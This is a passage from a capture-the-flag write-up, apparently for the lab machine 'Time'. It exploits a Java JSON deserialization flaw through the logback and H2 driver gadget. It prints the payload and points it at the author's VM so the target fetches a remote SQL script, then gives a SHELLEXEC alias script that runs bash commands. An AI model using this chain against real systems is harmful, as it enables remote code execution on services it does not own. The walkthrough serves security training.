 

    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]



This is taking advantage of a JSON deserialization vulnerability. In
this proof of concept, they are using the H2 database driver (which
should be present in most Java deployments that use a database, which is
most). This driver can take an SQL script to run, which is typically
used benignly to support database migrations.

#### Test

I'll update the URL to point to my VM:



    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8/test.sql'"}]



On submitting to Time, I get a request at my local HTTP server:



    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.214 - - [09/Feb/2021 19:23:33] code 404, message File not found
    10.10.10.214 - - [09/Feb/2021 19:23:33] "GET /test.sql HTTP/1.1" 4



It worked!

#### Weaponize - POC

There's a sample SQL script used to weaponize this in the post as well:



    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('id > exploited.txt')



The init script can't run Java, only SQL statements. However, that can
be worked around, as within SQL, it is allowed to define an alias
containing Java code. In the example about, it defines `SHELLEXEC` using
Java code to execute a command, and then in the last line calls it with
a payload to write the output of `id` to a file.

Since I can't read a file from Time (well, maybe, but really no - see
[Beyond Root](#beyond-root)), I'll try a `ping`:


